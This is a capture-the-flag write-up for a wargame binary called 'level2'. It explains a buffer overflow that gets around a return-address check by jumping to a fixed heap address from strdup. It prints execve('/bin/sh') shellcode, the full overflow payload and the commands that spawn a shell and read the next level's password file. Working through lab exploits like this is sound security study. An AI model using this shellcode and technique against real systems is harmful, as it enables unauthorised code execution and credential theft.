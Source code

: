 # Level 2

## Initial Context

- One file: `level2`

## Solving the Challenge

Running the file without any argument block on an input.
The program act like `cat`.

```bash
$ echo | ./level2

$ echo a | ./level2
a
$ echo hello | ./level2
hello
```

But a lot of characters seems to break it, looks like a `gets` exploit.

```bash
$ python -c 'print "A" * 128' | ./level2
Segmentation fault (core dumped)
```

By looking at the code, we can see that there are checks to avoid overwriting the return address to an address on the stack:

```c
void *return_address = __builtin_return_address(0);
if (return_address & 0xb0000000) == 0xb0000000) {
    _exit(1);
}
```

Running it with `ltrace` show a memory allocation (through `strdup`) at the end that always allocate to the same address.

```bash
$ echo A | ltrace ./level2
...
strdup("A")                                                         = 0x0804a008
...
$ echo A | ltrace ./level2
...
strdup("A")                                                         = 0x0804a008
...
```

Let's redirect the stack to the allocated memory of which we will put this [shell code](https://www.exploit-db.com/exploits/13357#:~:text=%22%5Cx31%5Cxc0%5Cx50%5Cx68//sh%5Cx68/bin%5Cx89%5Cxe3%5Cx50%5Cx53%5Cx89%5Cxe1%5Cx99%5Cxb0%5Cx0b%5Cxcd%5Cx80%22%3B).

The program reserve `80 bytes` for local variables before having the return address.

Since the shell code is `24 bytes` long, we need to add `56 bytes` as padding and then the new return address which is `0x0804a008`. (or `08 a0 04 08` in LE)

Here is our payload:

```python
"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
+ "a" * 56
+ "\x08\xa0\x04\x08"'
```

Let's save it in a file and send it to the vulnerable program:

```bash
$ python -c 'print "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
+ "a" * 56 + "\x08\xa0\x04\x08"' > /tmp/exploit2
$ cat /tmp/exploit2 - | ./level2
whoami
level3
cat /home/user/level3/.pass
<flag>
```

## Inspirations

- https://0xrick.github.io/binary-exploitation/bof5/
